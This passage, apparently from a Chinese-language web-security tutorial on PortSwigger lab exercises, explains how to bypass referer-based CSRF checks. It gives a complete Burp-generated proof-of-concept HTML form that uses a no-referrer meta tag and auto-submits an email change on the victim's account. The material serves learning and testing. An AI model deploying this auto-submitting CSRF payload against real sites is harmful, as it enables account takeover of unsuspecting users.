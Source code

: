 我们的请求完成了。

因此，在这种情况下，我们需要欺骗受害者的浏览器在发送恶意请求时丢弃 referer 标头，以便跳过验证。

我们可以通过添加

```
<meta name="referrer" content="no-referrer">
```

在我们的概念证明中。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[https://0a790074041efac7c0689f7200ac001e.web-security-academy.net/my-account/change-email](https://0a790074041efac7c0689f7200ac001e.web-security-academy.net/my-account/change-email)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="submit" value="Submit request" />
**<meta name="referrer" content="no-referrer">**
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![](img/97d7fe34aecf9b63c15013c0fd59b8b9.png)

**8: CSRF 与碎 Referer 验证:**

一些应用程序通过检查域来验证 referer 报头，如果请求来自允许的域列表，则处理该请求，如果来自不同的域，则拒绝该请求，但是由于不同解析器对 URL 的处理和解析，这种保护可以被绕过。

![](img/6f91b27dff796770582999f04fe41b85.png)
